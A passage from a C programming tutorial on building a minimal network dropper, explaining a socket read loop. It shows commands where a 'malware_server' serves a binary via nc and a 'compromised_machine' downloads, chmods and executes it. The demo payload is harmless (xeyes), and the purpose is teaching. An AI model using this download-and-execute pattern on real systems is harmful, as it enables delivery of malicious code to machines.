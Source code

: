 # Save the data

Now we just need to read what the server is sending and drop it somewhere. Instead of opening a file and save the data directly there we had opted to write to `stdout` and let the shell redirection operations do the magic. Exactly as shown at the beginning with `nc`.

The code that does this is repeated here for the readers convenience:

```C
  while (1) {
    if ((l = read (s, buf, BUF_SIZE) ) <= 0) break;
    write (1, buf, l);
    if (l < BUF_SIZE) break;
  }

```

This is a `while` loop. Basically it repeats whatever is after the `while (cond)` while the condition is true. In the example above we have set what is known as an infinite loop. As the condition is always true, the block affected by the `while` will repeat forever... Well actually until we leave it with the `break` keyword.

With this information, and making use of our knowledge about the `write` system call from previous instalments, we can easily infer that the `read` system call will read data from the indicated file descriptor (in this case it is a socket so data will be read from the network) and stores it in the indicated buffer. It will try to read as many data as the third parameter specify. As all other system calls, it will return `-1` in case of error. Otherwise `read` returns the number of bytes actually read. So we will be reading data from the network in blocks of `BUF_SIZE` bytes or less until there is nothing left (`read` will return 0 in that case) or an error occurs.

Then, the data we have just read we will write to `stdout` (remember file descriptor 1). The loop will finish whenever we read a block from the network with a size less than the designated buffer size.

Now we can compile our C program and test it using the setup we described earlier in this text.

In one console let's launch the server:

    malware_server $ cat /usr/bin/xeyes | nc -l -p $((0x1111))
	
In other console, let's compile and launch our dropper. I have named it `nwget_basic.c`

    compromised_machine $ make nwget_basic
	compromised_machine $ rm k; ./nwget_basic > k; chmod +x k; ./k
	
If everything goes well, you should see those eyes staring at your mouse pointer

# Shrinking the dropper

Sometimes getting a file into a machine is tricky. This may happen even with non security related scenarios. I have been in those cases were I need to transfer a file into a machine that does not have any tool to transfer files... Once I had `ssh` access to it but no `scp`. In general, if you can get to a shell in the machine there should be some way to get your files also there, but that is not always easy.
